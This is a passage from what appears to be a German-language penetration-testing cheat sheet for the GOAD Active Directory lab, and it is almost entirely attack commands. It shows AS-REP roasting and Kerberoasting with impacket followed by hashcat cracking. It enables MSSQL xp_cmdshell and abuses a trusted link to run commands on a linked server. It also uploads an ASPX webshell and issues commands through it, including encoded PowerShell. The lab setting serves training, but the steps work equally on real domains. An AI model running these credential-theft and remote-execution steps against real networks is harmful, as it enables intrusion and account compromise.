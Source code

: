 ```bash
```

#### ASREPRoasting (brandon.stark)
```bash
# Hash extrahieren
python3 /usr/share/impacket/examples/GetNPUsers.py \
  sevenkingdoms.local/brandon.stark -dc-ip 192.168.10.10 -no-pass

# Mit hashcat cracken
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt --force
```

#### Kerberoasting (jon.snow)
```bash
# Service Tickets extrahieren
python3 /usr/share/impacket/examples/GetUserSPNs.py \
  sevenkingdoms.local/jon.snow:password -dc-ip 192.168.10.10 \
  -outputfile kerberoast_hashes.txt

# Hashcat Kerberoasting
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### 2. GOAD-spezifische Exploits

#### MSSQL Exploitation (castelblack & braavos)
```bash
# MSSQL-Verbindung (jon.snow Admin auf castelblack)
python3 /usr/share/impacket/examples/mssqlclient.py \
  sevenkingdoms.local/jon.snow:password@192.168.10.12

# xp_cmdshell aktivieren
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami

# Trusted Link Abuse (castelblack → braavos)
SQL> select * from openquery("braavos", 'select @@servername')
SQL> select * from openquery("braavos", 'exec xp_cmdshell "whoami"')
```

#### IIS ASPX Upload (castelblack)
```bash
# File Upload Test
curl -X POST -F "file=@webshell.aspx" \
  http://192.168.10.12/upload/ 

# Command Execution via Webshell
curl "http://192.168.10.12/webshell.aspx?cmd=whoami"
curl "http://192.168.10.12/webshell.aspx?cmd=powershell -enc <BASE64>"
```

### 3. BloodHound Data Collection
